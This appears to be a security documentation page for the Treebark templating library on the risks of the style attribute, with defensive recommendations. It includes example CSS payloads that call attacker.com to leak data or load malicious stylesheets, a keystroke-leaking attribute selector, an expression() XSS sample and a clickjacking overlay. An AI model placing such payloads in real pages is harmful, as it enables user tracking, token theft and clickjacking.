 # Security Considerations

## Style Attribute Security Risks

The `style` attribute is currently allowed on all HTML elements in Treebark as a global attribute. While this provides flexibility for styling, there are several security considerations to be aware of:

### Identified Risks

#### 1. CSS Injection via url()
CSS properties that accept URLs (e.g., `background-image`, `background`, `list-style-image`) can be used to:
- **Load external resources** that could track users or exfiltrate data
- **Make cross-origin requests** that could leak information via CSS attribute selectors

**Example:**
```json
{
  "div": {
    "style": "background-image: url(https://attacker.com/track?data=sensitive)",
    "$children": ["Content"]
  }
}
```

#### 2. JavaScript Execution (Legacy Browsers)
While modern browsers block these, older browsers (particularly Internet Explorer) had features that could execute JavaScript through CSS:
- **`expression()`** - IE-specific CSS expression that could run JavaScript
- **`behavior`** property - IE could load and execute HTC (HTML Component) files
- **`-moz-binding`** - Firefox XBL binding that could execute code

**Example:**
```json
{
  "div": {
    "style": "width: expression(alert('XSS'))",
    "$children": ["Content"]
  }
}
```

#### 3. Data Exfiltration
CSS can be used to exfiltrate data through various techniques:
- **Attribute selectors with background images** - Can steal form values, CSRF tokens, etc.
- **Font-face with unicode-range** - Can detect specific characters in text

**Example:**
```css
input[value^="a"] {
  background: url(https://attacker.com/leak?char=a);
}
```

#### 4. UI Redressing
CSS properties like `position`, `z-index`, `opacity`, and `transform` can be used for:
- **Clickjacking** - Overlaying invisible elements over legitimate UI
- **Content hiding** - Hiding warning messages or important information
- **Phishing** - Creating fake login forms over legitimate content

**Example:**
```json
{
  "div": {
    "style": "position: fixed; top: 0; left: 0; z-index: 9999; opacity: 0.01",
    "$children": ["Invisible overlay"]
  }
}
```

#### 5. CSS Imports
The `@import` directive can load external stylesheets, which could:
- Load additional malicious CSS
- Track users
- Potentially bypass Content Security Policy in some configurations

**Example:**
```json
{
  "div": {
    "style": "@import url(https://attacker.com/malicious.css)",
    "$children": ["Content"]
  }
}
```

### Current Behavior

Treebark provides comprehensive security through its design:
- ✅ **Escapes HTML** in interpolated values (prevents `<script>` injection)
- ✅ **Validates tag names** (prevents `<script>` tags)
- ✅ **Validates attribute names** (prevents `onclick`, `onerror`, etc.)
- ✅ **Structured style objects** with whitelist validation (prevents CSS injection)

**Style Attribute Security:**
As of the latest version, Treebark requires the `style` attribute to be a structured object rather than a string. This provides security by design:
- Only whitelisted CSS properties are allowed (100+ safe properties)
- Dangerous properties like `behavior`, `-moz-binding`, and `expression` are blocked
- Values containing `url()` (except data: URIs), `javascript:`, or `@import` are rejected
- Property names must be in kebab-case format (e.g., `"font-size"`, not `"fontSize"`)

### Recommendations

For applications using Treebark with user-generated content or untrusted data, consider:

1. **Content Security Policy (CSP)**
   - Use `style-src 'self'` to prevent inline styles
   - Or use `style-src 'unsafe-inline'` with nonces

2. **Input Validation**
   - Validate and sanitize style values before passing to Treebark
   - Use an allowlist of safe CSS properties
   - Block or sanitize `url()` values

3. **Avoid User-Controlled Styles**
   - Don't allow users to directly control style attributes
   - Use predefined CSS classes instead
   - If custom styling is needed, validate against an allowlist

4. **Consider CSS Sanitization**
   - Implement a CSS sanitizer if user-controlled styles are necessary
   - Libraries like [sanitize-css](https://www.npmjs.com/package/sanitize-css) or similar can help
   - Block dangerous properties: `behavior`, `-moz-binding`, `expression`
   - Sanitize `url()` values to allow only data URIs or trusted domains

### Safe Usage Examples

**✅ Safe: Hardcoded styles**
```json
{
  "div": {
    "style": "color: red; font-size: 14px",
    "$children": ["Static content"]
  }
}
```

**✅ Safe: Interpolated safe values**
```json
{
  "div": {
    "style": "color: {{color}}; font-size: {{size}}px",
    "$children": ["Content"]
  }
}
```
With validated data: `{ color: "red", size: 14 }`

**⚠️ Risky: User-controlled full style attribute**
```json
{
  "div": {
    "style": "{{userStyle}}",
    "$children": ["Content"]
  }
}
```
If `userStyle` comes from untrusted input, this could be exploited.

### References

- [OWASP CSS Injection](https://owasp.org/www-community/attacks/CSS_Injection)
- [CSS Injection Attacks](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
- [Scriptless Attacks](http://www.segmentationfault.fr/publications/mario_heiderich_-_scriptless_attacks_cutting_edge_xss.pdf)
